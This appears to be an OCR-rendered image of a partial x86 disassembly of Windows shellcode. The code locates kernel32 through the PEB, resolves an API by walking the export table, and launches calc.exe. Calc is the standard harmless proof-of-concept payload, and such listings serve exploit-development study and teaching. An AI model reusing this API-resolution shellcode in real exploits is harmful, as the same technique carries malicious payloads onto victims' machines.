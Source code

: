 ```
  40101f:       64 8b 5e 30             mov    ebx,DWORD PTR fs:[esi+0x30]
  401023:       8b 5b 0c                mov    ebx,DWORD PTR [ebx+0xc]
  401026:       8b 5b 14                mov    ebx,DWORD PTR [ebx+0x14]
  401029:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102b:       8b 1b                   mov    ebx,DWORD PTR [ebx]
  40102d:       8b 5b 10                mov    ebx,DWORD PTR [ebx+0x10]
  401030:       89 5d f8                mov    DWORD PTR [ebp-0x8],ebx
  401033:       31 c0                   xor    eax,eax
  401035:       8b 43 3c                mov    eax,DWORD PTR [ebx+0x3c]
  401038:       01 d8                   add    eax,ebx
  40103a:       8b 40 78                mov    eax,DWORD PTR [eax+0x78]
  40103d:       01 d8                   add    eax,ebx
  40103f:       8b 48 24                mov    ecx,DWORD PTR [eax+0x24]
  401042:       01 d9                   add    ecx,ebx
  401044:       89 4d f4                mov    DWORD PTR [ebp-0xc],ecx
  401047:       8b 78 20                mov    edi,DWORD PTR [eax+0x20]
  40104a:       01 df                   add    edi,ebx
  40104c:       89 7d f0                mov    DWORD PTR [ebp-0x10],edi
  40104f:       8b 50 1c                mov    edx,DWORD PTR [eax+0x1c]
  401052:       01 da                   add    edx,ebx
  401054:       89 55 ec                mov    DWORD PTR [ebp-0x14],edx
  401057:       8b 50 14                mov    edx,DWORD PTR [eax+0x14]
  40105a:       31 c0                   xor    eax,eax
  40105c:       8b 7d f0                mov    edi,DWORD PTR [ebp-0x10]
  40105f:       8b 75 fc                mov    esi,DWORD PTR [ebp-0x4]
  401062:       31 c9                   xor    ecx,ecx
  401064:       fc                      cld
  401065:       8b 3c 87                mov    edi,DWORD PTR [edi+eax*4]
  401068:       01 df                   add    edi,ebx
  40106a:       66 83 c1 08             add    cx,0x8
  40106e:       f3 a6                   repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
  401070:       74 0a                   je     0x40107c
  401072:       40                      inc    eax
  401073:       39 d0                   cmp    eax,edx
  401075:       72 e5                   jb     0x40105c
  401077:       83 c4 26                add    esp,0x26
  40107a:       eb 3f                   jmp    0x4010bb
  40107c:       8b 4d f4                mov    ecx,DWORD PTR [ebp-0xc]
  40107f:       8b 55 ec                mov    edx,DWORD PTR [ebp-0x14]
  401082:       66 8b 04 41             mov    ax,WORD PTR [ecx+eax*2]
  401086:       8b 04 82                mov    eax,DWORD PTR [edx+eax*4]
  401089:       01 d8                   add    eax,ebx
  40108b:       31 d2                   xor    edx,edx
  40108d:       52                      push   edx
  40108e:       68 2e 65 78 65          push   0x6578652e
  401093:       68 63 61 6c 63          push   0x636c6163
  401098:       68 6d 33 32 5c          push   0x5c32336d
  40109d:       68 79 73 74 65          push   0x65747379
  4010a2:       68 77 73 5c 53          push   0x535c7377
  4010a7:       68 69 6e 64 6f          push   0x6f646e69
  4010ac:       68 43 3a 5c 57          push   0x575c3a43
  4010b1:       89 e6                   mov    esi,esp
  4010b3:       6a 0a                   push   0xa
  4010b5:       56                      push   esi
  4010b6:       ff d0                   call   eax
  4010b8:       83 c4 46                add    esp,0x46
  4010bb:       5d                      pop    ebp
  4010bc:       5f                      pop    edi
  4010bd:       5e                      pop    esi
  4010be:       5a                      pop    edx
  4010bf:       59                      pop    ecx
  4010c0:       5b                      pop    ebx
  4010c1:       58                      pop    eax
```